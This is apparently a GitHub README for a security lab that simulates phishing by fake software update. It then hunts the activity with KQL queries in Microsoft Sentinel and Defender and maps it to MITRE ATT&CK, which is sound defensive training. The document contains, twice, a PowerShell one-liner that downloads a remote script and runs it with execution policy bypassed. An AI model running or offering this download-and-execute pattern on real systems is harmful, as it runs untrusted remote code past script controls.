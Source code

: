

# 🚨 **Incident Response: Phishing via Fake Software Update** 🚨  

<img width="700*500" src="https://github.com/user-attachments/assets/e9d2fd77-dc9f-4faa-a735-925e1d3a25f0" alt="Tor Logo with the onion and a crosshair on it"/>

---

### 🛡️ **Scenario Overview**  
- **Organization**: 🏢 Medium-sized FinTech company.  
- **Threat**: Employees report unusual system behavior after clicking on a suspicious software update notification.  
- **Objective**: Identify the phishing campaign’s scope, mitigate its impact, and strengthen defenses.  

---

### 🌐 **PowerShell Payload (POC)**  

 
📥 **The PowerShell Payload**
Run the PowerShell command below on your VM **after onboarding it to MDE**:
```powershell
Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/TrevinoParker7/Powershell-test-payload-harmless/refs/heads/main/phishingFakeSoftwareUpdate.ps1' -OutFile 'C:\programdata\phishingFakeSoftwareUpdate.ps1';cmd /c powershell.exe -ExecutionPolicy Bypass -File C:\programdata\phishingFakeSoftwareUpdate.ps1
```

https://github.com/TrevinoParker7/Powershell-test-payload-harmless/blob/main/phishingFakeSoftwareUpdate.ps1

---

![Screenshot 2025-01-26 181108](https://github.com/user-attachments/assets/7b9ccc9f-e290-4125-8990-2e2de03d2d45)

![Screenshot 2025-01-26 130233](https://github.com/user-attachments/assets/e154a3c3-0a2f-4748-91af-0cc28bfa73a0)

---
### 💻 **Platforms and Tools Leveraged**  
- **SIEM**: Microsoft Sentinel  
- **Endpoint Protection**: Microsoft Defender for Endpoint  
- **Query Language**: Kusto Query Language (KQL)  
- **Infrastructure**: Windows 10 VMs on Microsoft Azure  

---

## 🕵️‍♂️ **High-Level IoC Discovery Plan**  
**Focus Areas**:  
1️⃣ Check **DeviceFileEvents** for suspicious file activities.  
2️⃣ Check **DeviceProcessEvents** for signs of malicious execution.  
3️⃣ Check **DeviceNetworkEvents** for outgoing connections, especially over known malicious ports.  

---

### 🔍 **KQL Queries**  

**Query: Recent File Events**  
```kql
DeviceFileEvents
| top 50 by Timestamp desc
```

**Query: Network Events**  
```kql
DeviceNetworkEvents
| top 50 by Timestamp desc
```

**Query: Process Events**  
```kql
DeviceProcessEvents
| top 50 by Timestamp desc
```

---

## 📊 **Threat Timeline**  

### 1️⃣ **File Download (Initial Access)**  
- **TTP**: [T1193](https://attack.mitre.org/techniques/T1193) - Spear Phishing Link  
- **Event**: Employees receive a phishing mimicking IT with a link to a "critical software update."  
- **Impact**: The link leads to downloading a PowerShell payload.  

**Relevant Query**:  
```kql
DeviceFileEvents
| where DeviceName == "tphish"
| where FileName endswith "ps1"
| order by Timestamp desc 
```
![Screenshot 2025-01-26 131545](https://github.com/user-attachments/assets/0f60aaaa-fc7c-456e-8680-5a2a3d7ed5db)
---

### 2️⃣ **Process Execution**  
- **TTP**: [T1059.001](https://attack.mitre.org/techniques/T1059/001) - PowerShell Execution  
- **Event**: Malicious PowerShell script execution on victim devices.  
- **Query Used**:  
```kql
let VMName = "tphish";
let specificTime = datetime(2025-01-26T19:01:29.0367754Z);
DeviceProcessEvents
| where Timestamp between ((specificTime - 2m) .. (specificTime + 2m))
| where DeviceName == VMName
| order by Timestamp desc
```

![Screenshot 2025-01-26 133010](https://github.com/user-attachments/assets/31b64c99-ad4f-48c1-b89f-ff5a34d5962f)

---

```kql
DeviceProcessEvents
| where FileName == "powershell.exe"
| where ProcessCommandLine contains "phishingFakeSoftwareUpdate.ps1" or ProcessCommandLine contains "Add-Type -AssemblyName PresentationFramework"
| extend Timestamp = Timestamp, InitiatingProcessAccountName = InitiatingProcessAccountName
| project Timestamp, DeviceName, FileName, ProcessCommandLine, InitiatingProcessAccountName, InitiatingProcessCommandLine
| order by Timestamp desc
```
![Screenshot 2025-01-26 134312](https://github.com/user-attachments/assets/31820b28-e89e-4e42-9ea5-24060e2a7508)

---


### 3️⃣ **Network Connection to C2 Server**  
- **TTP**: [T1071.001](https://attack.mitre.org/techniques/T1071/001) - Web Protocols  
- **Event**: Communication with a C2 server over the internet, potentially exfiltrating credentials.  
- **Query Used**:  
```kql
union DeviceNetworkEvents, DeviceProcessEvents
| where Timestamp > ago(6h)
| where RemoteUrl contains "raw.githubusercontent.com" or InitiatingProcessCommandLine has "phishingFakeSoftwareUpdate.ps1"
| project Timestamp, DeviceName, RemoteUrl, RemoteIP, InitiatingProcessCommandLine, FileName, FolderPath, ActionType
| order by Timestamp desc
```
![Screenshot 2025-01-26 140306](https://github.com/user-attachments/assets/f41a1d4e-246e-4ca1-9053-5a0630777595)

---

### 4️⃣ **Lateral Movement & Credential Dumping**  
- **TTPs**:  
  - [T1210](https://attack.mitre.org/techniques/T1210) - Exploitation of Remote Services  

---

## 🛠️ **Mitigation Steps**  

### 🔒 Containment  
1️⃣ Block the malicious domain on the firewall and DNS servers.  
2️⃣ Disable compromised user accounts and enforce password resets.  
3️⃣ Isolate infected machines from the network.  

### 🧹 Eradication  
1️⃣ Deploy updated antivirus signatures to detect and remove the malware.  
2️⃣ Conduct system-wide scans using EDR tools.  

### 🔄 Recovery  
1️⃣ Restore affected systems from backups.  
2️⃣ Re-enable user access after ensuring systems are clean.  

---

## 🧠 **Post-Incident Improvements**  

### 🚀 Proactive Monitoring  
- Enhanced SIEM rules for detecting phishing emails.  
- Integration of threat intelligence feeds to block new malicious domains.
- Create a Rule to detect this. 

### 📚 User Awareness  
- Mandatory phishing training with simulation tests.  
- Quick-reference phishing awareness guide shared via email.  

---

### 📈 **Mapped TTPs to MITRE ATT&CK Framework**  

| Tactic             | Technique                             | ID        | Example                             |  
|---------------------|---------------------------------------|-----------|-------------------------------------|  
| **Initial Access**  | Spear Phishing Link                  | T1193     | Phishing email with fake update link |  
| **Execution**       | PowerShell Execution                 | T1059.001 | Malicious PowerShell script executed |  
| **Command & Control** | Web Protocols                     | T1071.001 | C2 communication to exfiltrate data |  
| **Credential Access** | Credentials in Files              | T1555.003 | Stolen credentials from payload use |  
| **Lateral Movement**  | Exploitation of Remote Services    | T1210     | Attempts to pivot to other devices  |  

---

### 📥**PowerShell Payload (POC)**  

Run the PowerShell command below on your VM **after onboarding it to MDE**:
```powershell
Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/TrevinoParker7/Powershell-test-payload-harmless/refs/heads/main/phishingFakeSoftwareUpdate.ps1' -OutFile 'C:\programdata\phishingFakeSoftwareUpdate.ps1';cmd /c powershell.exe -ExecutionPolicy Bypass -File C:\programdata\phishingFakeSoftwareUpdate.ps1
```

https://github.com/TrevinoParker7/Powershell-test-payload-harmless/blob/main/phishingFakeSoftwareUpdate.ps1

---
